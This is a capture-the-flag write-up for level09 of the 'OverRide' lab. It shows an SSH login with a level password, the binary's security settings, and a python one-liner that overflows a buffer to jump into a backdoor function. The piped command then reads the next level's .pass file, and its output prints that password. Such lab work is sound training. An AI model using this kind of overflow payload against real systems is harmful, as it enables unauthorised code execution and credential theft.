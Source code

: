 ```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level09
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level09@192.168.56.101's password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$
```

The program contains `secret_backdoor()` function which reads in at most 127 characters from `stdin` and stores them into the buffer pointed to by `command`. Then it executes  a command specified in `command` by calling `/bin/sh -c command`,

At first glance, return address must be overwritten in order to redirect flow of the program into `secret_backdoor()` function.

# Exploit
```sh
level09@OverRide:~$ (python -c "import struct; print('\xff'*50 + '\n' + '\x55'*200 + struct.pack('I', 0x5555488c) + struct.pack('I', 0x5555))"; echo 'cat /home/users/$(whoami)/.pass') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, >: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```
